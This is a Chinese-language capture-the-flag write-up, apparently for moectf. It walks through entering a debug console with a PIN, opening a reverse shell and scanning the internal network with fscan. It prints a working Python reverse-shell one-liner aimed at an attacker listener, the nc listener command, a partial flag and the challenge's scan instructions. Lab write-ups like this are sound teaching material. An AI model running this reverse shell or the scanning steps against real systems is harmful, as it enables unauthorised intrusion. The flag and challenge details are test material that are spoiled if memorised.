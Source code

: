 得到提示在地址栏输入 http://192.168.179.128:8000/console ，进入 console，输入 pin 码

#### 反弹shell

kali 进行监听
```shell
nc -lvvp 2223 
```
在console输入
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.129",2223));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

在根目录发现部分 flag 
```shell
moectf{Information-leakage-Is-dangerous!
```

还有 readme 的内容
```shell
恭喜你通过外网渗透拿下了本台服务器的权限
接下来，你需要尝试内网渗透，本服务器的/app/tools目录下内置了fscan
你需要了解它的基本用法，然后扫描内网的ip段
如果你进行了正确的操作，会得到类似下面的结果
10.1.11.11:22 open
10.1.23.21:8080 open
10.1.23.23:9000 open
将你得到的若干个端口号从小到大排序并以 - 分割，这一串即为hint.zip压缩包的密码（本例中，密码为：22-8080-9000）
注意：请忽略掉xx.xx.xx.1，例如扫出三个ip 192.168.0.1 192.168.0.2 192.168.0.3 ，请忽略掉有关192.168.0.1的所有结果！此为出题人服务器上的其它正常服务
对密码有疑问随时咨询出题人$ 
```

### 攻击内网服务器

在刚刚得到的外网服务器上面，查看主机名与IP地址之间的映射关系
```shell
cat /etc/hosts
```

得到的内容如下
```shell
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.4      0bc78aa6bec8
172.21.0.3      0bc78aa6bec8
```

正常来说，这里需要使用扫描工具，本题中已经预设好了 ```fscan```，在 ```/app/tools``` 目录下
```shell
./fscan -h 172.20.0.4/24
```
但是我这里 ```fscan``` 没扫出来不知道什么情况，先往下走
参考一下别人的情况，如下
```shell
[*]Icmp alive hosts len is:4
172.20.0.4:8080 open
172.20.0.2:6379 open
172.20.0.3:3306 open
172.20.0.1:3306 open
172.20.0.1:80 open
172.20.0.2:22 open
172.20.0.1:22 open
```